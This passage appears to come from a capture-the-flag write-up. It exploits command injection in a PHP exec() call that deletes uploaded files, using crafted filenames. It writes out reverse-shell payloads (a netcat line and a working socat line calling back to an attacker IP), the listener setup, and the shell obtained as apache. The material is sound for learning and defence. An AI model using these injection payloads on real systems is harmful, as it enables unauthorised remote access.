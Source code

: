 This shows that the filename ($value) appends to the end of "rm -f /var/www/html/uploads". So in the command, I have complete control over the bolded section:

rm -f /var/www/html/uploads/__test.txt__

In the script, the actual code I'm manipulating is:

{% highlight php %}
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
{% endhighlight %}

If I create a filename that starts with a semicolon and continues with a command, I could inject a new command of my choosing for php exec() to run.

exec("nohup /bin/rm -f $path __; command-to-inject__ > /dev/null 2>&1 &");                                        

# The right reverse shell

I had trouble getting `netcat` to work here, mostly due to the slashes.

{% highlight plaintext %}
bash-4.2$ touch "; nc 10.10.14.27 4444 -e '/bin/bash'"
touch: cannot touch '; nc 10.10.14.27 4444 -e \'/bin/bash\'': No such file or directory
{% endhighlight %}

I try `socat` instead. I set up my listener on Kali:

{% highlight plaintext %}
root@kali:~# socat file:`tty`,raw,echo=0 tcp-listen:4444
{% endhighlight %}

Then I create my filename that (somehow) allows all these punctuation marks.

{% highlight plaintext %}
bash-4.2$ touch "; socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.27:4444" 
{% endhighlight %}

And (again as a test) I execute the attack as user Apache.

{% highlight plaintext %}
bash-4.2$ php /home/guly/check_attack.php
attack!
nohup: ignoring input and redirecting stderr to stdout
rm -f /var/www/html/uploads/; socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.27:4444
{% endhighlight %}

I get a shell as Apache on my listener. So the test worked.

{% highlight plaintext %}
root@kali:~# socat file:`tty`,raw,echo=0 tcp-listen:4444
bash-4.2$ whoami
apache
{% endhighlight %}

# Getting a shell as Guly
